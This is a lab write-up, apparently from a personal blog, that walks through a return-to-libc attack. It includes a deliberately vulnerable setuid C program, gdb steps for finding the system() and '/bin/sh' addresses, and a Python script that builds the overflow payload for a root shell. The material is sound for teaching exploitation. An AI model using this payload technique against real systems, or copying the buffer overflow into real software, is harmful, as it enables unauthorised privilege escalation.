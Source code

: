 ```yaml
---
title: "Return-to-libc Attack"
date: 2021-02-01T18:49:41+08:00
draft: false
---
```


To prevent buffer overflow attacks, some operating systems allow the programs to make their stacks non-executable, which means if we jump to the stack and run the shellcode, we will fail. The goal of the following experiments is to utilize the variant of buffer overflow attack -- return-to-libc attack and get the root privilege of the shell. 



## Setup

Environment:

1. Google cloud virtual machine: Ubuntu 20.04
2. Linux kernel version: 5.4.0
3. Create a symbolic link from "/bin/zsh" to "/bin/sh" since /bin/dash in most Ubuntu systems prevents itself from being executed in a Set-UID process 
4. Disable ASLR and Stackguard protection, but make the stack non-executable (our purpose of the experiment)



## Vulnerable program 

Here is a vulnerable program called retlib.c. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int bof(char* str)
{
	char buffer[12]; 
	unsigned int* framep; 

	asm("movl %%ebp, %0" : "=r" (framep)); 

	printf("ebp value = 0x%.8x\n", (unsigned)framep); 
	printf("buffer address = 0x%.8x\n", (unsigned)buffer); 

	strcpy(buffer, str); 		// buffer overflow
	return 1; 
}

int main(int argc, char** argv)
{
	char input[100]; 
	FILE* badfile; 

	badfile = fopen("badfile", "r"); 
	int len = fread(input, sizeof(char), 100, badfile); 
	printf("input size = %d", len); 

	bof(input); 
	printf("return properly\n"); 

	return 1; 
}
```

Disable ASLR and Stackguard protection, and compile the program into the 32-bit executable. Note that we need to make the stack non-executable, so compile with the flag "-z noexecstack" as follows:

```
$ gcc -m32 -fno-stack-protector -z noexecstack retlib.c -o retlib
$ sudo chown root retlib
$ sudo chmod 4755 retlib
```



## Idea

The idea of the return-to-libc attack is to jump into a function in the library (for example, libc) without running the instruction located in the stack. To get the root privilege of the shell, our goal is to invoke system("/bin/sh"). So the first thing is to find out where is the function system(). We can use gdb debugger to print out the address of the system() as follows. 

![](https://github.com/chuang76/image/blob/master/ch3-13.PNG?raw=true)

Next, we need to figure out where is the string "/bin/sh". One method is to use an environment variable. The reason is that when we execute a program from a shell prompt, the shell actually fork itself and creates a child process to run the program. All the exported environment variables will be *inherited* by the child process. So we can export a self-defined environment variable called "my_shell" which value equals to "/bin/sh" and use a simple program called "prtenv.c" to print out the address. 

```
#include <stdio.h>
#include <stdlib.h>

void main()
{
	char* shell = getenv("my_shell"); 
	if (shell)
		printf("shell = %s, address = 0x%x\n", shell, (unsigned int)shell);
}
```

Compile the program and export the environment variable "my_shell". 

```
$ export my_shell="/bin/sh"
$ gcc -m32 prtenv.c -o prtenv
$ gcc -m32 prtenv.c -o prtaaa
$ gcc -m32 prtenv.c -o prtaaaaa
$ gcc -m32 prtenv.c -g -o prtenv_dbg
```

Here is the result. However, the address of the environment variable is sensitive to the length of the file name. Why? Let's use the debugger to figure out. 

![](https://github.com/chuang76/image/blob/master/ch3-14.PNG?raw=true)

Set a breakpoint at main function and run the program. We can find the address of environment variable with a pointer to pointer [environ](https://man7.org/linux/man-pages/man7/environ.7.html), which points to an array of pointers to strings called the "environment". As you can see, environment variables are located in the stack section. Before environment variables are pushed into the stack, the file name of the program is pushed first. So that's why the address of the environment variable may be affected by the length of the file name. 

```
(gdb) x/100s *((char **)environ)
```

![](https://github.com/chuang76/image/blob/master/ch3-15.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/ch3-16.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/ch3-17.PNG?raw=true)



## Payload

Run the vulnerable program to find out where should we put the address of system(). That is, the value of ebp - the address of buffer + the size of ebp register =  0xffffd4d8 - 0xffffd4c0 + 4 = 28. So our crafted stack frame should looks like this:

![](https://github.com/chuang76/image/blob/master/ch3-19.PNG?raw=true)

Here is our payload: replace the return address of strcmp()'s frame as the address of system() and put the argument of system(), i.e., the address of the string "/bin/sh". Note that it is necessary to fill the return address of system()'s frame with the address of exit(), or the program will crash. 

```
#!/usr/bin/python3

import sys 

content = bytearray(0xaa for i in range(100))

shell_addr = 0xffffdf73
system_addr = 0xf7e13420
exit_addr = 0xf7e05f80 

content[28:32] = (system_addr).to_bytes(4, byteorder='little')
content[32:36] = (exit_addr).to_bytes(4, byteorder='little')
content[36:40] = (shell_addr).to_bytes(4, byteorder='little')

with open("badfile", "wb") as f:
    f.write(content)
```

So we can get the root privilege of the shell. 

![](https://github.com/chuang76/image/blob/master/ch3-18.PNG?raw=true)



## Reference

1. Programs, Processes and Memory [[link]](https://www.usna.edu/Users/cs/wcbrown/courses/IC221/classes/L08/Class.html)